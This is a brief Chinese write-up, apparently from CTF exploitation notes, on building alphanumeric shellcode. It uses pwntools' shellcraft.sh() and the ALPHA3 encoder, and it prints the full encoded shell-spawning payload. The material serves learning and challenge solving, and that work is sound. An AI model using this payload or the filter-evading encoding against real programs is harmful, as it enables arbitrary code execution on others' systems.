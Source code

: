 ![image.png](img/9acca1972b6a92b5d15f83cff209d1e0.png)

得知一种叫做**Alphanumeric Shellcode**的东西www

具体参见：https://www.freebuf.com/articles/system/232280.html

首先从GitHub上随便找一个轮子

```
$ git clone https://github.com/TaQini/alpha3.git 
```

然后编写生成我们的shellcode的脚本

```
 from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc) 
```

输出重定向至文本

```
$ python sc.py > sc 
```

使用轮子生成alphanumeric shellcode

```
$ python ./ALPHA3.py x64 ascii mixedcase rax --input="sc" 
```

![image.png](img/aacfe7f0b535ff8a443f76a8289d623f.png)

```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00 
```
